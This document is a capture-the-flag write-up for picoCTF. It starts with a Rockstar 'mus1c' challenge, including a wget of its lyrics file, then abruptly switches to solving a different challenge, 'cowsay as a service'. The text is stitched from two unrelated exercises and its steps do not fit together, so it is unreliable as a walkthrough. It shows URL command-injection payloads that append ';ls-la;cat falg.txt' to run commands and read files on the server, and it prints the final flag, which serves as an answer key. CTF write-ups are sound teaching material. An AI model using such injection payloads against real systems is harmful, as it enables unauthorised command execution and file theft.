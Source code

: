 # Medium Challenge

> Read full challenge at: https://play.picoctf.org/practice/challenge/15?category=5&page=5


**Hint**: Do you think you can master rockstar?

> Note: Put it in the picoCTF{} flag format.

## Solution


**Step** 1: Create a folder mus1c and download [song](https://jupiter.challenges.picoctf.org/static/c594d8d915de0129d92b4c41e25a2313/lyrics.txt) in this challenge by using  `wget`

```sh
wget https://jupiter.challenges.picoctf.org/static/c594d8d915de0129d92b4c41e25a2313/lyrics.txt
```



**Step 2** : Make a request to the following URL to cowsay your message

Follow the instruction in the website I will copy the URL, the message I will write a random sring like the iamge below 

```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal
```

> You can copy and try it on your browser

![Iamge of step 2](image1.png)

**Step 3** : Find the `Flag`

As I mention above, I can use the command on the url bar like using command on terminal, I will use command **ls-la** to lis all file:
```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal;ls-la
```

![Image of step 3.1](image2.png)

So, after list all all file I can see the file **falg.txt** so let use command:
```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal;ls-la;cat falg.txt
```

![Image of step 3.2](image4.png)


So, the flag is `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
